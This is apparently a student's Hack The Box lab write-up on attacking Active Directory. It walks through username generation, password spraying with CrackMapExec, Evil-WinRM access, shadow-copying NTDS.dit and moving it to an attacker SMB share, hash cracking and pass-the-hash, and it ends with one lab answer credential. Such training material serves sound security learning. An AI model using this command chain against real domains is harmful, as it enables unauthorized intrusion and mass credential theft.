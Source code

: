 # Attacking Active Directory & NTDS.dit

Here we will learn how we can extract credentials through the use of a `dictionary attack against AD accounts` and `dumping hashes` from the `NTDS.dit` file.

our target must be reachable over the network. This means it is highly likely that we will need to have a foothold established on the internal network to which the target is connected.

Here is the authentication process once a Windows system has been joined to the domain.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Once a Windows system is joined to a domain, it will `no longer default to referencing the SAM database to validate logon requests`. That domain-joined system will now send all authentication requests to be validated by the domain controller before allowing a user to log on.

To bruteforce our way into the network, we need to know patterns orgs can utilize when creating employee usernames ->

| Username Convention                 | Practical Example for Jane Jill Doe |
| ----------------------------------- | ----------------------------------- |
| `firstinitiallastname`              | jdoe                                |
| `firstinitialmiddleinitiallastname` | jjdoe                               |
| `firstnamelastname`                 | janedoe                             |
| `firstname.lastname`                | jane.doe                            |
| `lastname.firstname`                | doe.jane                            |
| `nickname`                          | doedoehacksstuff                    |

an same goes for the email -> `jdoe`@`inlanefreight.com`

Let's say we have some employees&#x20;

* Ben Williamson
* Bob Burgerstien
* Jim Stevenson

using the tool [Username Anarchy](https://github.com/urbanadventurer/username-anarchy), we can convert a list of real names into common username formats.

```shell-session
ElFelixi0@htb[/htb]$ ./username-anarchy -i /home/ltnbob/names.txt 

ben
benwilliamson
ben.williamson
benwilli
benwill
<SNIP>
```

Once we have our list(s) prepared or discover the naming convention and some employee names, we can launch our attack against the target domain controller using a tool such as CrackMapExec.

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

### Capturing NTDS.dit

`NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources. Recall that `NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model). The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html). This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information

**Connecting to a DC with Evil-WinRM**

Once we have our set of credentials we can try and connect to the DC

```shell-session
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Once connected, we can check to see what privileges `bwilliamson` has.

```shell-session
*Evil-WinRM* PS C:\> net localgroup
```

To make a copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights.

**Checking User Account Privileges including Domain**

```shell-session
*Evil-WinRM* PS C:\> net user bwilliamson
<SNIP>
Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
<SNIP>
```

This account has both Administrators and Domain Administrator rights which means we can do just about anything we want

We can use `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the C: drive because NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location.

```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

Then to copy the file we need to create an SMB share on our attack host

We can then copy the NTDS.dit file from the volume shadow copy of C: onto another location on the drive to prepare to move NTDS.dit to our attack host.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

Now `cmd.exe /c move` can be used to move the file from the target DC to the share on our attack host.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

**Using cme to Capture NTDS.dit**

This is much more faster&#x20;

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

### Cracking Hashes

Now we can copy the output of the attack and put every NT hash in a txt file to launch hashcat

```shell-session
ElFelixi0@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

`What if we are unsuccessful in cracking a hash?`

&#x20;We can still use hashes to attempt to authenticate with a system using a type of attack called `Pass-the-Hash` (`PtH`). A PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`

**Pass-the-Hash with Evil-WinRM Example**

```shell-session
ElFelixi0@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

_**On an engagement you have gone on several social media sites and found the Inlanefreight employee names: John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager. You decide to use these names to conduct your password attacks against the target domain controller. Submit John Marston's credentials as the answer. (Format: username:password, Case-Sensitive)**_

```
./username-anarchy/username-anarchy -i listofpeaople.txt > lastusername.txt
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
crackmapexec smb 10.129.202.85 -u lastusername.txt -p fasttrack.txt
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
cjohnson:Welcome1212
```

Did not manage to finish this, will come back later ->

##
